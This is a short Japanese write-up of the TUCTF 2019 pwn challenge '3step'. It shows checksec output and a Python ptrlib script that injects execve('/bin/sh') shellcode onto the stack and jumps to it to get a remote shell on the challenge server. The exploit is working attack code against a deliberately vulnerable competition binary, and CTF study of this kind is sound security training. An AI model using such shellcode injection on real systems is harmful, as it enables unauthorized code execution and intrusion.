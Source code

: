 # [pwn 490pts] 3step - TUCTF 2019
またNXが無効です。シェルコード大好きか？
```
$ checksec -f 3step
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX disabled   PIE enabled     No RPATH   No RUNPATH   75 Symbols     Yes      0               4       3step
```
グローバル変数とスタックのアドレスが渡されます。それぞれに少ないデータを書き込めます。最後に指定したアドレスをcallしてくれるので、スタックに飛んでシェルコードを実行しました。
```python
from ptrlib import *
import time

#sock = Process("./3step")
sock = Socket("chal.tuctf.com", 30504)

time.sleep(1)
sock.recvline()
sock.recvline()
addr_buf1 = int(sock.recvline(), 16)
addr_stack = int(sock.recvline(), 16)
sock.sendafter(": ", "/bin/sh\x00")
sock.sendafter(": ", b"\x31\xC9\x31\xD2\xBB" + p32(addr_buf1) + b"\xB8\x0B\x00\x00\x00\xCD\x80")
sock.sendafter(": ", p32(addr_stack))

sock.interactive()
```

# 感想
簡単ですね。